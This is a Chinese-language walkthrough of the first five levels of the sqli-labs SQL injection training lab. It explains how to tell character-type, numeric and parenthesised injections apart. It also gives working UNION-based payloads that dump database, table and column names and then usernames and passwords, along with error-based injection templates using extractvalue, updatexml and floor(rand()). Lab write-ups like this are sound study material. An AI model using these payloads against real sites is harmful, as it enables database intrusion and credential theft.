 # sqli-lab通关笔记

## 第一关

输入单引号报语法错误，说明是字符型注入，输入#注释符成功不显示报错

![image-20210510214933062](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210510214933062.png)

开始`order by`查看列数 `union select` 查看显示的列数信息，然后查看`database()、version()、`如果是mysql数据库并且版本号大于5.0，就可以利用`information_schema`这个数据库进行信息的显示。而本关卡正好符合，很容易就破解了。

+ 获取列数，4列报错，3列正常显示，则说明显示SQL语句显示3列信息

  ![image-20210510215437509](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210510215437509.png)

+ 获取显示的列 **注意，单引号前面的1要改成-1，因为他不能显示信息，后面的语句才能显示**

![image-20210510215708911](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210510215708911.png)

显示`2,3`，下面我们就在2,3列上修改sql函数

+ 获取SQL数据库信息

  ![image-20210510215854464](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210510215854464.png)

+ 先获取数据库信息、数据库表名信息、表的列名信息、最后成功显示出表中的信息

~~~mysql
?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata # //枚举数据库
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security' %23 //枚举数据库所有表名
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' %23  //枚举users表中的所有列名
?id=-1' union select 1,2,group_concat(concat(username,0x7e,password))from users %23//枚举出所有的username和password,并用~分割开

~~~

枚举所有的数据库信息![image-20210510220708753](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210510220708753.png)

枚举数据库所有表名

![image-20210510220948625](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210510220948625.png)

枚举users表中的所有列名

![image-20210510221142238](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210510221142238.png)

枚举出所有的users表中的username和password，破解成功

![image-20210510221810545](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210510221810545.png)

## 第二关

输入`'`单引号报语法错误，然后输入注释符之后报错并没有消失，根据报错信息可以推断出这个SQL查询语句应该是数字型的。

![image-20210511101332144](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210511101332144.png)

于是开始针对数字型注入开始测试，成功得到信息

![image-20210511101454919](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210511101454919.png)

于是开始和第一关一样的套路，详情略过

## 第三关

判断注入类型，输入 `'`单引号报错，但是显示的报错信息有一个 `)`，我们猜测代码中进行了限制，用（）把id变量包含了起来，输入）进行验证，报错成功不显示了

![image-20210511140358241](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210511140358241.png)

![image-20210511140524020](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210511140524020.png)

接下来就是判断列数--》3列

以下步骤和前两关一样，不在赘述

![image-20210511140815064](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210511140815064.png)

## 第四关

输入 `'`单引号判断注入类型，不报错，然后我就以为是数字类型注入，直接输入order by 判断列数，结果并没有回显列数，看来也不是数字型注入。看了源码才知道原来是 `"`双引号字符型+ `)` 注入，代码写的还挺绕。。。。

于是开始老套路，先判断列数

![image-20210511141636612](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210511141636612.png)

显示`database()、version()、users()`

利用information_schema数据库爆出想要的数据表信息，不再赘述

![image-20210511141936063](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210511141936063.png)

## 第五关

这一关是字符型注入，和第一关一样，但是这一关并不显示数据信息，只显示You are in……

![image-20210511142142909](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210511142142909.png)

我的思路是利用报错注入，利用那三种报错注入显示数据库信息。

~~~mysql
1. union select count(*) ,concat ((此处加入执行语句),0x7e,floor (rand (0)*2))  as a from information _schema.tables group by a;
2. or extractvalue(1,concat (0x7e,(此处加入执行语句),0x7e));
3. union select updatexml(1,concat (0x7e,(此处加入执行语句),0x7e),1);
~~~

接下来利用三种语句的其中之一利用information_schema库进行注入即可

![image-20210511145507931](sqli-lab%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.assets/image-20210511145507931.png)

